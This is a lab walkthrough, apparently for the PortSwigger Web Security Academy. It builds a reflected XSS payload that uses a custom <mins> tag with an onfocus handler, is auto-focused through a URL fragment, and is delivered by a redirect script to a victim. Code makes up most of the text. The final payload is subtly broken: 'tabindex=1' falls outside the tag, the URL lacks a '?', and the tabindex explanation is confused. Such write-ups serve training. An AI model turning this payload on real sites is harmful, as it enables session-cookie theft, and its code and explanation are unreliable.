 
### Reflected XSS into HTML context with all tags blocked except custom ones : PRACTITIONER

---

> We need to create a custom tag to solve this lab, can't use `iframe` in the exploit server.

> We create a `script` manually, and insert in it the `location` variable that redirects the script to the address in it.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search="; </script>
```
> We set its location to the lab and insert the search parameter where we will inject the payload.

> The next step is to create our own element, as any other will get rejected. 
> Moreover, we need an event that when triggered, will cause our `alert()` function to be called with the `document.cookie`.
```
<mins>
```
> Let `<mins>` be our custom self closing tag.

> Use the event `onfocus`, which triggers when you TAB over to it.
> To make this work, we need to include an `id` for our element, and call that id in the URL for it to autofocus once we open the webpage.
```
<mins id=omar>
```

> Setting the event handler for the element.
```
<mins id=omar onfocus=alert(document.cookie)>
```

> Now putting it all together.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search= <mins id=omar onfocus=alert(document.cookie)> #omar"; </script>
```
> We add the `#omar` in the end to autofocus to our element for the event to be called.

> It still doesn't work, as we need by default the browser to not head to it. We need for it to TAB over to our element, therefore, we set the default TAB value to 1, so once we load, the 1 then CHANGES to our element, triggering the event.
```
<script> location = "https://0abc00ce0377f43f8328cd54009500e5.web-security-academy.net/search= <mins id=omar onfocus=alert(document.cookie)> tabindex=1 #omar"; </script>
```

> We deliver this exploit to victim, and the popup shows and the lab is complete.

---

